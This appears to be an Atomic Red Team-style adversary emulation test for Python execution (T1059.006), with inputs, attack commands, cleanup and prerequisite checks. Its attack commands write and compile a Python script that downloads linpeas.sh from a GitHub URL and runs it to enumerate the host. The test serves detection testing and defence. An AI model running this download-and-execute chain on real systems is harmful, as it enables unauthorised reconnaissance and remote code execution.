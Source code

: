 #### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| python_script_name | Name of Python script name | path | T1059.006.py|
| script_url | URL hosting external malicious payload | string | https://github.com/carlospolop/PEASS-ng/releases/download/20220214/linpeas.sh|
| payload_file_name | Shell script file name downloaded from the script_url | string | T1059.006-payload|
| executor | Payload or script interpreter / executor | string | sh|
| script_args | Arguments to check for system stats, available software, process details, environment paths, open sockets, and interesting files | string | -q -o SysI, Devs, AvaSof, ProCronSrvcsTmrsSocks, Net, UsrI, SofI, IntFiles|
| python_binary_name | Name of Python file to be compiled | path | T1059.006.pyc|


#### Attack Commands: Run with `sh`! 


```sh
which_python=$(which python || which python3 || which python3.9 || which python2)
echo 'import requests' > #{python_script_name}
echo 'import os' >> #{python_script_name}
echo 'url = "#{script_url}"' >> #{python_script_name}
echo 'malicious_command = "#{executor} #{payload_file_name} #{script_args}"' >> #{python_script_name}
echo 'session = requests.session()' >> #{python_script_name}
echo 'source = session.get(url).content' >> #{python_script_name}
echo 'fd = open("#{payload_file_name}", "wb+")' >> #{python_script_name}
echo 'fd.write(source)' >> #{python_script_name}
echo 'fd.close()' >> #{python_script_name}
echo 'os.system(malicious_command)' >> #{python_script_name}
$which_python -c 'import py_compile; py_compile.compile("#{python_script_name}", "#{python_binary_name}")'
$which_python #{python_binary_name}
```

#### Cleanup Commands:
```sh
rm #{python_binary_name} #{python_script_name} #{payload_file_name}
```



#### Dependencies:  Run with `sh`!
##### Description: Requires Python
##### Check Prereq Commands:
```sh
which_python=$(which python || which python3 || which python3.9 || which python2); $which_python -V
$which_python -c 'import requests' 2>/dev/null; echo $?
```
##### Get Prereq Commands:
```sh
pip install requests
```
